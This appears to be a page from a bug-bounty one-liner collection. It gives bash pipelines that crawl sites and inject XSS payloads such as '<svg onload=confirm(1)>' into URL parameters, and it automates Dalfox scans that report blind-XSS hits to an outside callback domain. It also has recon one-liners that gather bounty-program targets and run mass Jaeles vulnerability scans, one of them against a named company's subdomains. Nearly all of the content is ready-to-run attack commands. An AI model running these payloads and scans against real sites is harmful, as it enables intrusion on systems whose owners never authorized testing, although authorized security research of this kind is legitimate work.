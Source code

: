 ## XSS qsreplace
> @KingOfBugBounty
```bash
gospider -a -s https://site.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

## XSS httpx
> @ofjaah
```bash
httpx -l master.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo "(http|https)://[^/"].* | tr -d '[]' | anew  | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>"
```
## Automating XSS using Dalfox, GF and Waybackurls
> [Automating XSS using Dalfox, GF and Waybackurls](https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75)
```bash
cat test.txt | gf xss | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours-xss-hunter-domain(e.g yours.xss.ht)
```

## Dump In-Scope Assests from Bounty Program
### BugCrowd Programs
> @dwisiswant0
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

## Recon.dev
> @ofjaaah
```bash
curl "https://recon.dev/api/search?key=YOURAPIKEY&domain=target.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | anew |httpx -silent | xargs -I@ gospider -d 0 -s @ -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```

## Jaeles scan to bugbounty targets.
> @KingOfBugbounty
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ jaeles scan -s /jaeles-signatures/ -u @
```
> @ofjaah
```bash
curl -s "https://jldc.me/anubis/subdomains/sony.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | httpx -silent -threads 300 | anew | rush -j 10 'jaeles scan -s /jaeles-signatures/ -u {}'
```
